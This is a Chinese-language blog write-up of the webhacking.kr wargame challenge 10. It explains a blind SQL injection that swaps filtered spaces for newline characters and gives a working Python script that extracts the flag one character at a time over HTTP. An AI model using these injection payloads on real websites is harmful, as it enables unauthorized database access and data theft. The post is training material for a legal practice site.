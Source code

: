 ```yaml
---
title: webhacking.kr challenge 10
author: rk700
layout: post
categories:
  - writeup
tags:
  - webhacking.kr
  - sql
---
```


这道题其实和web-09非常像。

进入页面，发现有提示，知道了column和表的名字。然后试了下直接把参数`no`取为查询语句，发现还是很多过滤了，而且最后发现似乎返回值只见到了0和1，估计还是盲注。

过滤的地方，主要是空格有问题，但如果把空格换为换行符`%0a`就可以了。

然后还用昨天的思路，但一直跑不出来……最后搜了答案。相比我的，主要是这次`flag`有两个，用我昨天做web-09时的那种对应关系被固定了。而用`min`或`max`就可以用特定的那一个。

另一处是昨天直接检查字符`in()`，不区分大小写导致最后暴力了一把；而用`ord()`先得到ascii码再检查就可以区分大小写了。

代码如下，我先试了`min(flag)`，中了

{% highlight python %}
#!/usr/bin/env python2

import httplib

def makePayload(statement):
    return "/challenge/web/web-10/index.php?no=if((select%%0aord(substr(min(flag),%d,1))from%%0aprob13password)in(%d),1,2)" % (statement[0], (statement[1]))

def checkResponse(response):
    return response.find("<td>1</td>") != -1

def doAssert(conn, header, statement):
    conn.request("GET", makePayload(statement), "", header)
    response = conn.getresponse()
    content = response.read()

    return checkResponse(content)

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=oaka47lr0m69a85ghgfeqinup4"}
    conn = httplib.HTTPConnection(url)
    result = []
    for idx in range(1,21):
        print "idx %d" % idx
        for code in range(33,127):
            if doAssert(conn, header, (idx, code)):
                print code
                result.append(chr(code))
                break
    print ''.join(result)
{% endhighlight %}
